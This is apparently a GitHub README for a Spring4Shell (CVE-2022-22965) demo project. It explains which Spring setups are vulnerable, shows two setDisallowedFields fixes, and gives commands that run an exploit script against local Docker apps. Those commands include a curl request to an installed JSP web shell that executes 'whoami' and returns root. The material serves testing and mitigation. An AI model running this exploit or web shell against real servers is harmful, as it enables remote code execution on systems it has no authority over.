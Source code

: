 # spring4shell

Spring4Shell RCE Demo

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/sinjap](https://github.com/sinjap) |
| Url      | [https://github.com/sinjap/spring4shell](https://github.com/sinjap/spring4shell)                                               |
| Stars    | 1                                                          |
| License  | Apache License 2.0                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2022-22965* spring

</details>

## Readme

# Spring4Shell RCE Demo for CVE-2022-22965
![MindMap](spring4shell_mindmap.drawio.png)

## Types of demo

1. spring-mvc (with spring-boot) deployed as a war to Apache Tomcat
2. spring-boot war with jsp, to be run as `java -jar`
3. spring-boot jar without jsp, to be run as `java -jar`

While the first spring-mvc in Apache Tomcat is vulnerable, the latter two types -- where spring-boot runs in 
Embedded Tomcat Servlet Container -- do not appear to be vulnerable. 
See also https://www.praetorian.com/blog/spring-core-jdk9-rce/

### Update 04/04/2022 
Initial rumors on the internet claimed that RestControllers where not impacted by this vulnerability but it appears 
that these are equally vulnerable. 

### Endpoints
The endpoints to test the application are:
- `/`, `/request`, `/rest/request`, `/safe-request` or `/rest/safe-request`
- `/get`, `/rest/get`
- `/post`, `/rest/post`
- `/put`, `/rest/put`

Lastly, `spring4shell-exploit.sh` is a standalone bash script for testing the exploit against any app.

### TODO
- implement POC for CVE-2022-22963 SpEL

## Run spring-mvc demo

To run the spring-mvc demo, the war file needs to be deployed to a Tomcat container.

For convenience, there is a pre-built docker container. Here is how see the exploit in action:
```
# Run a sample vulnerable app
$ docker run -p 8080:8080 --rm spring4shell

# Install and run the exploit
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell-rce/request

# Try manually running (after a small delay)
$ curl --fail -v --output - 'http://localhost:8080/shelly.jsp?pwd=PeekAboo&cmd=whoami'
> GET /shelly.jsp?pwd=PeekAboo&cmd=whoami HTTP/1.1
> Host: localhost:8080
> Accept: */*
> 
< HTTP/1.1 200 
< Content-Type: text/html;charset=ISO-8859-1
< Content-Length: 2291
< 
root
```

<br/>

The demo also contains two fixes.

One fix is to apply binder [setDisallowedFields() at controller level](https://github.com/dotnes/spring4shell/blob/main/spring4shell-spring-mvc/src/main/java/com/example/spring4shell/controller/SafeHelloWorldController.java#L22-L29):
```
# Run or restart the sample app.
$ docker run -p 8080:8080 --rm dotnes/spring4shell

# Try to install the exploit against safe controller. It should fail
# (Make sure the exploit was not previously installed)
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/safe-helloworld

# Try manually running (after a small delay)
$ curl --fail -v --output - 'http://localhost:8080/shelly.jsp?pwd=PeekAboo&cmd=whoami'
curl: (22) The requested URL returned error: 404
```

Another fix is to apply [setDisallowedFields() with a controller advice](https://github.com/dotnes/spring4shell/blob/main/spring4shell-spring-mvc/src/main/java/com/example/spring4shell/controller/BinderControllerAdvice.java#L7-L20), for all controllers:
```
# Run or restart the sample app.
$ docker run -p 8080:8080 --rm -e APPLY_ADVICE=true spring4shell

# Install and run the exploit against unsafe controller. It should fail.
# (Make sure the exploit was not previously installed)
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/request
curl: (22) The requested URL returned error: 404 
```

## Run spring-boot war with jsp

```
# Run a sample vulnerable app
$ docker run -p 8080:8080 --rm spring4shell-spring-boot-war

# Try to install the exploit. It should fail
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/request
curl: (22) The requested URL returned error: 404
```

## Run spring-boot jar without jsp

```
# Run a sample vulnerable app
$ docker run -p 8080:8080 --rm spring4shell-spring-boot-jar

# Try to install the exploit. It should fail
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/request
curl: (22) The requested URL returned error: 404
```

# Credits
Big shout out to @maxxedev for creating the foundation of this project.


## Get the content

```
git clone https://github.com/sinjap/spring4shell
cd spring4shell
```

{% embed url="https://github.com/sinjap/spring4shell" %}

<figure><img src="https://avatars.githubusercontent.com/u/675105?v=4" alt=""><figcaption><p>sinjap</p></figcaption></figure>
